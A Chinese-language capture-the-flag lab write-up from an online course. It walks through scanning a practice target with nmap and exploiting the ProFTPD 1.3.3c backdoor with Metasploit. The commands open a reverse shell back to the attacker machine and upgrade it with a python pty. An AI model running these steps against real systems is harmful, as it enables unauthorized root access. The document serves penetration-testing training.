

51CTO的网课，本篇针对FTP服务后门，利用metasploit搜索可用payload渗透靶机，获取flag。

本篇使用工具nmap、metasploit。

<!-- more -->

# 使用命令

## nmap

* 探测靶场开放的服务与服务的版本
``` bash
-- nmap -sV 靶场IP地址
```

* 探测靶场全部信息
``` bash
-- nmap -A -v -T4 靶场IP地址
```

## metasploit

* 查找可利用漏洞

``` bash
searchsploit 对应服务及版本
```

* 渗透攻击

``` bash
msfconsole
>search 对应服务及版本
>use 对应exploit

>show payloads
>set payload 对应payload

>show options

>set rhosts 靶机IP地址
>set lhost 攻击机IP地址

>run
```

## shell优化

* 优化会话显示带用户、目录的命令行界面

``` bash
python -c "import pty;pty.spawn('/bin/bash')"
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口、系统信息等：

``` bash
nmap -sV 192.168.1.113
nmap -A -v -T4 192.168.1.113
```


2. 搜索该ftp服务版本，查找可利用漏洞，看到metasploit里有可用漏洞：

``` bash
searchsploit ProFTPD 1.3.3c
```


3. 进metasploit，搜索可利用漏洞，选择版本对应的这个：

``` bash
msfconsole
>search ProFTPD 1.3.3c
>use exploit/unix/ftp/proftpd_133c_backdoor
```


4. 查看可利用payloads，选择这个：

``` bash
>show payloads
>set payload cmd/unix/reverse
```


5. 设置靶机IP和攻击机IP：

``` bash
>set rhosts 192.168.1.113
>set lhost 192.168.1.114
```


6. 执行渗透，成功拿到root权限：



7. 优化shell，切换到根目录拿到flag，这里是有flag的，可能我这个靶机镜像被之前的使用者删掉了：


# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)